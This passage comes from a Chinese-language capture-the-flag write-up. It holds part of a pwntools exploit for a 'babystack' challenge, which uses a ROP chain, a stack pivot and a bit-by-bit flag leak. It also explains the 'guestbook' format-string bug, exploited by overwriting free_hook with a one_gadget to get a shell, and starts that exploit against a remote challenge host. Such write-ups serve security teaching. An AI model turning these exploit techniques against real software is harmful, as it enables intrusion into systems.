 ```python
            libc.address + 0x937,       # ret
            libc.address + 0x195455,    # add esp, edi; jmp rax;
            # two condition here
            0x4141414141414141,
            0x400B85,                   # exit
        ]
        for i in rop_bit:
            payload += p64(i)

    p.send(stack_pivot_payload)

    payload = ''
    for i in rop:
        payload += p64(i)

    brute(index)

    sleep(0.3)
    p.send(payload)
    p.send(file)
    content = p.recvline()
    if content.endswith('fault\n'):
        bit += '0'
    else:
        p.unrecv('chance\n')
        bit += '1'
    print bit
    if len(bit) % 8 == 0:
        flag1 = ('%x' % int(bit[-8:], 2)).decode('hex') + flag1
        if len(flag1) % 8 == 0:
            flag += flag1
            print flag
            flag1 = ''
        print flag1
    # p.close()
    # p = process('./babystack')
    # sleep(0.5)
    # p = remote('47.100.64.113', 20001)
    libc.address = 0
    index += 1
```

## guestbook

一个格式化字符串漏洞，name处输入一个格式化字符串，可以printf读出来

格式化字符串是在bss段上的，为了做到任意地址读写，在栈上构造一个跳板，正好栈上有一个`xxx(stack address) -> xxx(stack address) -> 0`，且多次执行该值不改变，用第一个改第二个的值，利用第二个值就可以任意地址写了

写的话由于delete函数里调用了free函数，所以把freehook改成onegadget就getshell了，exp如下：

```python
from pwn import *
r = remote("47.100.64.171", 20002)
libc = ELF('./libc.so.6')
elf = ELF('./guestbook')
#r = process('./guestbook', env = {'LD_PRELOAD': libc.path})
#context(arch='i386', os='linux', log_level='info')
'''
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
gdb.attach(proc.pidof(r)[0])
'''
libc.symbols["one_gadget"] = 0x3a80c

```